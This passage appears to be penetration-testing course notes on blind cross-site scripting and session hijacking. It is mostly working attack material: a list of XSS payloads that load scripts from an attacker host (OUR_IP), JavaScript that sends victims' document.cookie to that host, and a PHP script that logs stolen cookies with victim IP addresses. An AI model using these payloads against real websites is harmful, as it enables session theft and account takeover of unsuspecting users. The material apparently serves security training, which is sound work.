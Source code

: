 To do so, we can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

## Loading a Remote Script

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
<script src="http://OUR_IP/username"></script>
```

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

## Session Hijacking

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use `script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):

```html
<script src=http://10.10.16.46/script.js></script>
```
We can save the following PHP script as `index.php`, and re-run the PHP server again:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```